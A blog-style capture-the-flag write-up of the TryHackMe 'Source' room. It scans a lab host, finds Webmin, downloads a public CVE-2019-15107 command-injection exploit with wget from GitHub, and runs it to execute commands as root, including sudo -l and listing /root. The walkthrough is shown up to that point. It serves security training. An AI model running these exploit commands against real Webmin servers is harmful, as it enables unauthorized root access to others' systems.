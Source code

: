 ```yaml
---
layout: post
title: "Source"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rustscan, /etc/hosts, Webmin, CVE-2019-15107, RCE]
image: ../../assets/img/posts/source.png 

---
```


## Description

Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

|**Room**|[Source](https://tryhackme.com/room/source)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[DarkStar7471](https://tryhackme.com/p/DarkStar7471)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.41.33 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186834754-aeb96676-a5c9-4bfb-af45-616419b28785.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p22,10000 10.10.41.33 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186834822-5024feac-0085-4a63-b453-7a33a1bee1fa.png)

Result scan shows that port 22 is running ssh service and port 10000 is running webserver.

Let's start with enumerating port 10000 by visiting http://10.10.41.33,

![image](https://user-images.githubusercontent.com/67465230/186834874-b6f9d87b-8e4f-4551-9025-0d456afb0089.png)

We got the error on the page as it doesn't load on browser because this webserver is running ssl mode and we are following the IP on web as http. Even after clicking on the link provided on the webpage, we will still get the error.

To resolve this issue, we need to add the host IP and corresponding domain name in /etc/hosts file,

```bash
10.10.41.33    ip-10-10-41-33.eu-west-1.compute.internal
```

![image](https://user-images.githubusercontent.com/67465230/186834909-f093f409-753f-4efb-9dbc-f05419736139.png)

Now, let's visit the domain name we just added, https://ip-10-10-41-33.eu-west-1.compute.internal,

![image](https://user-images.githubusercontent.com/67465230/186834951-a3133496-0b6d-41ff-b2f0-1e6a98dd7e47.png)

we got a webmin login portal. We can try to login into this portal using default credentials.

We can try to login using root:admin,

![image](https://user-images.githubusercontent.com/67465230/186834982-acdac8cb-a938-41e3-a373-54d3335791d1.png)

but we can't login because these credentials are wrong.

After searching for the version running of the software, I stumbled upon the github link from muirland oracle, [CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107/blob/main/CVE-2019-15107.py),

![image](https://user-images.githubusercontent.com/67465230/186835018-f26374ba-56a7-4b8c-8c46-9e43ec9061cf.png)

>CVE-2019-15107 : An issue was discovered in Webmin <=1.920. The parameter old in password_change.cgi contains a command injection vulnerability.

Let's download this exploit

```bash
wget https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py -O webmin-1.890_exploit.py
```

Let's see how we can run this exploit,

```bash
python3 webmin-1.890_exploit.py -h
```

![image](https://user-images.githubusercontent.com/67465230/186835177-277a2834-9e5b-4498-b834-99e3a87b1156.png)

Okay, so we only need to specify IP, port and command we need to execute on the system.

So let's try to get the ID of the present user,

```bash
python3 webmin-1.890_exploit.py 10.10.41.33 10000 id
```

![image](https://user-images.githubusercontent.com/67465230/186835209-8a1bd981-af18-47e8-8a35-a44c8d61be7f.png)

After firing up the exploit, we get the root user's ID.

Let's confirm again if we are root user,

```bash
python3 webmin-1.890_exploit.py 10.10.41.33 10000 whoami
```

![image](https://user-images.githubusercontent.com/67465230/186835239-4579235e-72cc-433f-b140-c45ce9cf0c02.png)

Indeed we are root user.

Let's enumerate home directory and we find a dark user there, so enumerating dark user directory as well and I found out a user flag,

```bash
python3 webmin-1.890_exploit.py 10.10.41.33 10000 "ls -la /home"
python3 webmin-1.890_exploit.py 10.10.41.33 10000 "ls -la /home/dark"
```

![image](https://user-images.githubusercontent.com/67465230/186835309-33642d5e-1d90-47ee-96f3-339207d29bb5.png)

Now comes the privilege escalation part. We can look for those binaries which we can run using `sudo`,

```bash
python3 webmin-1.890_exploit.py 10.10.41.33 10000 "sudo -l"
```

![image](https://user-images.githubusercontent.com/67465230/186835345-87b5fc1c-02e7-470d-8abd-aeb6ed2b9f8c.png)

we can run **ALL** binaries as sudo.

Now, we can try to enumerate root directory using ls command but we will be running it with sudo,

```bash
python3 webmin-1.890_exploit.py 10.10.41.33 10000 "sudo ls /root/"
```

![image](https://user-images.githubusercontent.com/67465230/186835380-9deb7990-3817-402c-bd62-23fbb7a4b088.png)
